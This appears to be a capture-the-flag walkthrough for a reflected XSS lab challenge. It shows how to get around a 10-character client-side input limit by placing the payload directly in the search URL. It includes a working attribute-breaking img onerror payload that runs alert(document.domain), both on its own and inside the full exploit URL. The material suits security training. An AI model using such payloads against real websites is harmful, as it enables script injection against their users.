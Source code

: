# Challenge #2 - Poema Reading Club 3

URL: http://2.challenge.xss.site

## Objectives

- You should prove them wrong and demonstrate how you can still run JavaScript code in one of the vulnerable user input channels.

## What you will learn

- How to bypass simple client-side input validation
- How to perform basic XSS exploitation

## Hints

- XSS Reflected

## Steps

Open the challenge page.

http://2.challenge.xss.site/

This time, the term input has a maxlength of 10 characters.

Source:
<input type="text" name="term" id="search-text" value="" maxlength="10" />

Add anything on search input and click on go.

Search term: example

Search url:
http://2.challenge.xss.site/search.php?term=example

Looking in the source code you will find the term reflected as below.

<img src="images/404.png" title="example">

To show the alert box we need send the follow payload.

"><img src=1 onerror="alert(document.domain)

Just add the payload to the search url replacing your search term.

http://2.challenge.xss.site/search.php?term="><img hidden src=1 onerror="alert(document.domain)




